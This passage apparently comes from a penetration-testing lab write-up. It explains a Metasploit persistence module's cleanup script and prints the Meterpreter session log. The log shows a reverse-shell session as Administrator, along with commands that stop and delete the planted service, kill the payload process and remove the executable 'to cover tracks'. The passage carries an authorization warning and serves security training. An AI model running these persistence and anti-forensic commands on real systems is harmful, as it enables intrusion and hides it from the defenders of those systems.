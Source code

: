 In summary, this resource script is designed to stop and delete a service named "gEvSzIR," forcefully terminate a process named "yXSEGLTG.exe," and finally, remove the file "yXSEGLTG.exe" from the Temp directory on the compromised Windows system. These actions are likely intended to cover tracks and remove traces of the attacker's activities on the compromised system. Again, it's crucial to emphasize that such actions should only be performed with proper authorization during authorized penetration testing activities. Unauthorized or malicious use of these commands may lead to legal consequences.

```
msf6 exploit(windows/local/persistence_service) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                  Connection
  --  ----  ----                     -----------                                  ----------
  1         meterpreter x64/windows  ATTACKDEFENSE\Administrator @ ATTACKDEFENSE  10.10.16.2:4444 -> 10.0.19.113:49749 (10.0.19.113)

msf6 exploit(windows/local/persistence_service) > sessions 1
[*] Starting interaction with 1...

meterpreter > resource /root/.msf4/logs/persistence/ATTACKDEFENSE_20230721.3007/ATTACKDEFENSE_20230721.3007.rc
[*] Processing /root/.msf4/logs/persistence/ATTACKDEFENSE_20230721.3007/ATTACKDEFENSE_20230721.3007.rc for ERB directives.
resource (/root/.msf4/logs/persistence/ATTACKDEFENSE_20230721.3007/ATTACKDEFENSE_20230721.3007.rc)> execute -H -f sc.exe -a "stop gEvSzIR"
Process 4524 created.
resource (/root/.msf4/logs/persistence/ATTACKDEFENSE_20230721.3007/ATTACKDEFENSE_20230721.3007.rc)> execute -H -f sc.exe -a "delete gEvSzIR"
Process 920 created.
resource (/root/.msf4/logs/persistence/ATTACKDEFENSE_20230721.3007/ATTACKDEFENSE_20230721.3007.rc)> execute -H -i -f taskkill.exe -a "/f /im yXSEGLTG.exe"
Process 2756 created.
Channel 3 created.
ERROR: The process "yXSEGLTG.exe" not found.
resource (/root/.msf4/logs/persistence/ATTACKDEFENSE_20230721.3007/ATTACKDEFENSE_20230721.3007.rc)> rm "C:\\Users\\ADMINI~1\\AppData\\Local\\Temp\\yXSEGLTG.exe"
```

```
meterpreter > cd C:\\
meterpreter > cd Users 
meterpreter > cd Administrator 
meterpreter > cd AppData 
meterpreter > cd Local
meterpreter > cd Temp
meterpreter > ls
Listing: C:\Users\Administrator\AppData\Local\Temp
==================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2023-07-21 15:12:12 +0530  Low
40777/rwxrwxrwx   0      dir   2023-07-21 15:36:58 +0530  WinSAT
100666/rw-rw-rw-  16384  fil   2023-07-21 15:12:13 +0530  ~DFCC7F5C8B0BE8160E.TMP
100666/rw-rw-rw-  16384  fil   2023-07-21 15:12:14 +0530  ~DFD0CF2CE10438D90C.TMP
```

